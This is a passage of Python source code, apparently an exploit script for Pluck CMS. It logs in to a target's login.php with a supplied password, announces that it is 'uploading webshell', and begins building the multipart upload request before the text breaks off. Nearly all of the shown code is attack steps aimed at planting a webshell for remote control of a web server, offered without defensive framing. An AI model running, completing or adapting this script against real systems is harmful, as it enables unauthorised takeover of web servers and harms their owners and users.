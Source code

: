 
    '''
    Authentication:
    '''
    # Compute Content-Length:
    base_content_len = 27
    password_encoded = urllib.parse.quote(password, safe='')
    password_encoded_len = len(password_encoded.encode('utf-8'))
    content_len = base_content_len + password_encoded_len

    # Construct Header:
    header = {
        'Host': target_ip,
        'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        'Accept-Language': 'de,en-US;q=0.7,en;q=0.3',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Content-Length': str(content_len),
        'Origin': 'http://' + target_ip,
        'Connection': 'close',
        'Referer': 'http://' + target_ip + pluckcmspath + '/login.php',
        'Cookie': cookie,
        'Upgrade-Insecure-Requests': '1'
    }

    # Construct Data:
    body = {
        'cont1': password,
        'bogus': '',
        'submit': 'Log in',
    }

    # Authenticating:
    link_auth = 'http://' + target_ip + ':' + target_port + pluckcmspath + '/login.php'
    auth = requests.post(link_auth, headers=header, data=body)
    print('')
    if 'error' in auth.text:
        print('Password incorrect, please try again:')
        exit()
    else:
        print('Authentification was succesfull, uploading webshell')
        print('')


    '''
    Upload Webshell:
    '''
    # Construct Header:
    header = {
        'Host': target_ip,
        'User-Agent': 'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
        'Accept-Language': 'de,en-US;q=0.7,en;q=0.3',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'multipart/form-data; boundary=---------------------------5170699732428994785525662060',
        'Connection': 'close',